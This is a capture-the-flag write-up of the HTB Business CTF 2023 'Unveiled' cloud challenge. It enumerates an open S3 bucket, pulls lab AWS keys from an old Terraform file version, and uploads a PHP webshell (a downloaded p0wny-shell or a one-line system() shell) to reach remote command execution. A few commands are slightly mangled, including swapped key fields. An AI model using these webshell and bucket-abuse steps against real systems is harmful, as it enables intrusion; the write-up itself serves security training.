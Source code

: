 # Unveiled (Cloud Challenge)
HTB Business CTF 2023
Writeup by: @godylockz

## Challenge Description
Category: Cloud
Difficulty: Easy
Points: 1000
N/A

## Strategy
The premise revolving around this challenge was to upload a PHP webshell to an openly-accessible AWS S3 Bucket and obtain RCE for the flag.

Connect to the HTB VPN via `sudo openvpn <vpntoken>.ovpn`
Add `unveiled.htb` to your `/etc/hosts` file for local DNS resolution.

Running nmap to the target:
```text
Nmap scan report for unveiled.htb (10.129.253.25)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Travel to Planet Red
|_http-server-header: Apache/2.4.41
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsing to the website at `http://unveiled.htb` and viewing the source (CTRL + U), we discover a hidden comment detailing another virtual host of `s3.unveiled.htb` which we add to our `/etc/hosts` file and a username of `galen` as shown below.
![unveiled_1](images/unveiled_1.png)
```text
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<script src="http://s3.unveiled.htb/unveiled-backups/main.js"/>
```

AWS Endpoint Function Workaround (Added https://github.com/aws/aws-cli/pull/8006/commits/e34caf506696db97c24d40da5a45e3e5b3bc5cb2)
Make sure you are running the latest version of `aws-cli` so you don't have to type the `--endpoint-url` every time or use the following:
```sh
$ export AWS_ENDPOINT_URL=http://s3.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

List buckets accessible:
```sh
$ aws s3api list-buckets
Buckets:
- CreationDate: '2023-07-14T21:12:16+00:00'
  Name: unveiled-backups
- CreationDate: '2023-07-14T21:12:17+00:00'
  Name: website-assets
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a

$ aws s3api list-objects-v2 --bucket 'unveiled-backups'
Contents:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  Key: index.html
  LastModified: '2023-07-14T21:12:18+00:00'
  Size: 4495
  StorageClass: STANDARD
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  Key: main.tf
  LastModified: '2023-07-14T21:12:19+00:00'
  Size: 1107
  StorageClass: STANDARD

$ aws s3 ls s3://unveiled-backups/
2023-07-14 17:12:18       4495 index.html
2023-07-14 17:12:19       1107 main.tf
```

Download Files:
```sh
$ aws s3 cp --recursive s3://unveiled-backups .
or ..
$ aws s3 sync s3://unveiled-backups/ .
download: s3://unveiled-backups/main.tf to ./main.tf
download: s3://unveiled-backups/index.html to ./index.html
```

List Bucket Access Control List (ACL):
```sh
$ aws s3api get-bucket-acl --bucket unveiled-backups
Grants:
- Grantee:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
    Type: CanonicalUser
  Permission: FULL_CONTROL
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
```

Unintended solution (upload a webshell without creds):
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Get AWS S3 Bucket Version Control History:
```sh
$ aws s3api list-object-versions --bucket unveiled-backups
Versions:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  IsLatest: true
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4495
  StorageClass: STANDARD
  VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7
- ETag: '"3596df2e55e9786e11a09c32ae21c33c"'
  IsLatest: false
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4438
  StorageClass: STANDARD
  VersionId: ab1f42c7-0c8d-4a5b-8d70-05d95b71c937
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  IsLatest: true
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1107
  StorageClass: STANDARD
  VersionId: e760e5b7-cde9-485e-9a6b-de15e1694886
- ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
  IsLatest: false
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1167aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
```

Get Old Revision of Files:
```sh
$ aws s3api get-object --bucket unveiled-backups --key main.tf --version-id 2660dd61-14c4-47e4-ad0e-931c14da88a9 main.tf.old
AcceptRanges: bytes
ContentLength: 1167
ContentType: binary/octet-stream
ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 2660dd61-14c4-47e4-ad0e-931c14da88a9

$ aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
AcceptRanges: bytes
ContentLength: 4495
ContentType: text/html
ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7

$ head ./unveiled-backups-old/main.tf
variable "aws_access_key"{
  default = "AKIA6CFMOGFLAHOPQTMA"
}
variable "aws_secret_key"{
  default = "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"
}
```

Configure AWS-CLI with new AWS secrets and check if we can access the private S3 bucket of `website-assets`.
```sh
$ aws configure
AWS Access Key ID: tLK3S3CNsXfj0mjPsIH2iCh5odYHMPDwSVxn7CB5
AWS Secret Access Key: AKIA6CFMOGFLAHOPQTMA
Default region name [us-east-1]:
Default output format [None]:

$ aws sts get-caller-identity
Account: '683633011377'
Arn: arn:aws:iam::683633011377:user/will
UserId: AKIAIOSFODNN7DXV3G29

$ aws s3 ls s3://website-assets
2023-07-14 18:32:49      91790 background.jpg
2023-07-14 18:32:49       4372 index.html
```

Upload webshell with new access keys:
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
or ...
$ echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php

$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Access webshell:
```sh
$ firefox http://unveiled.htb/shell.php
```
Can also fetch the flag via curl:
```sh
curl -s -X POST 'http://unveiled.htb/shell.php?feature=shell' --data 'cmd=cat /var/www/flag.txt' | jq -r '.stdout'|base64 -d
HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}
```

Flag: `HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}`